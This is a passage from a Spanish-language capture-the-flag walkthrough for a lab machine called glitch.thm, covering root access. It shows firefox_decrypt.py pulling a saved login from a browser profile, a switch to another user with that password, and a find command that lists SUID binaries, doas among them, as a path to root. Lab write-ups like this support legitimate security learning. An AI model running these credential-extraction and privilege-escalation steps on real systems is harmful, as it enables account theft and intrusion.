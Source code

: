 ### 3.4 Exploit para descifar las contraseñas

- Descargamos el exploit desde la siguiente página <https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py> lo guardamos con el nombre **exp.py**, lo ejecutamos con el siguiente comando, marcamos la opción **2** y de está manera obtenemos un usuario y contraseña:

```css
─# python3 exp.py .firefox 
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v??????'
Password: 'l??????'

```

- Ingresamos con el usuario y contraseña encontrados en el punto anterior:

```css
user@ubuntu:~$ su v0id
su v0id
Password: l??????
v0id@ubuntu:/home/user$ 

```

---

### 4 Root

- Con el siguiente comando procedemos a escanerar los binarios que pueden ser explotados y **doas** nos permite

```css
root@ubuntu:~# find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
root@ubuntu:~# 

```

---